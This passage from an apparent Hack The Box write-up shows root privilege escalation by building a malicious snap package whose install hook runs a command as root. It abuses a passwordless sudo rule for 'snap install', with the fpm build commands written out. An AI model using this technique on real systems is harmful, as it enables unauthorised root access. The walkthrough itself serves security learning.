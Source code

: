 ## what is it?

`snap` is package manager similar to `apt`, developed by Canonical (Ubuntu). `snap` was created as a way to have cross-platform packages that could be used across many Linux distributions. Snaps are different from normal packages however, because they are sandboxed applications that are bundled with their own dependencies. This makes snap packages easy to install and use. These packages have a `.snap` extension and is a filesystem containing the application itself, libraries, dependencies, and metadata. It is compressed with `SquashFS`, so you can run `unsquash -ll <snap package>` to see the contents inside a snap package.

```sh
[tyco㉿4YE: ~/htb/armageddon/snap]$ unsquashfs -ll test.snap 
drwxr-xr-x root/root                27 2021-12-29 11:42 squashfs-root
drwxr-xr-x root/root                45 2021-12-29 11:42 squashfs-root/meta
drwxr-xr-x root/root                30 2021-12-29 11:42 squashfs-root/meta/hooks
-rwxr-xr-x root/root                35 2021-12-29 11:42 squashfs-root/meta/hooks/install
-rw-r--r-- root/root               147 2021-12-29 11:42 squashfs-root/meta/snap.yaml
```

## exploitation

With the password bruteforced, we can now SSH into the box, and run `sudo -l` to see what commands the user can run.

```sh
[brucetherealadmin@armageddon ~]$ sudo -l

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

I was not familiar with how to exploit this, so I went to [GTFOBins](https://gtfobins.github.io/gtfobins/snap/) to see if `snap` was a binary that could be used to escalate privileges. 

Since the user `brucetherealadmin` can install any snap packages as `root` without authentication, we are going to create a custom snap package that will do what we will need to escalate privileges. GTFOBins had the PoC laid out. I just ran each command line-by-line, with the modification of the `COMMAND` variable and hosted it on a Python HTTP server to transfer the file over.

```bash
(1) > COMMAND="cat /root/root.txt"
(2) > mkdir -p meta/hooks
(3) > printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
(4) > chmod +x meta/hooks/install
(5) > fpm -n xxxx -s dir -t snap -a all meta

> python3 -m http.server
```

To break it down, we're creating a malicious package, and all it is doing is running a command as the `root` user. 

1. `COMMAND="cat /root/root.txt"` will set up the `COMMAND` variable. I want the variable to read the flag in `root.txt`.
